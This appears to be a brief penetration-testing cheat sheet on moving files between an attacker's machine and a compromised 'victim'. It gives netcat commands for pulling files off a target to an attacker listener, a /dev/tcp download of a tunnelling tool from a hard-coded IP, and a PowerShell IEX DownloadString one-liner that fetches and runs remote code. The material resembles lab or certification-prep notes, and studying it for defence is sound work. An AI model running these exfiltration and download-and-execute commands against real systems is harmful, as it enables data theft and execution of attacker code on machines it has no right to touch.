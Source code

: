 
## NC 
You can transfer files via netcat using setting up a listener on the box you want to receive the file like so;
`nc -lvnp 9001 > <FILE>`

On the system you want to extract files from, you can 
`nc <ATTACKING MACHINE 9001 < <FILE>`
or
`cat <file> | nc <ATTACKING MACHINE> 9001`


**You may need to terminate the nc listener receiving the file as it can hang and keep the connection active** 


## TCG you monster (/dev/tcp)
You can use `/dev/tcp` to transfer files in some janky horrid way
Host the file on your attack box like normal `nc -lvnp 9001 < <FILE>`

From the victim run 
`cat < /dev/tcp/<IP>/<PORT> > <FILENAME>`

`cat < /dev/tcp/10.11.41.83/9001 > chisel.b64`


## Powershell
Within a powershell cli, you can transfer files to your box with 
`Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILENAME>"`


`powershell.exe -c "IEX(New-Object 	Net.WebClient).DownloadString('http://<IP>/<FILE>')`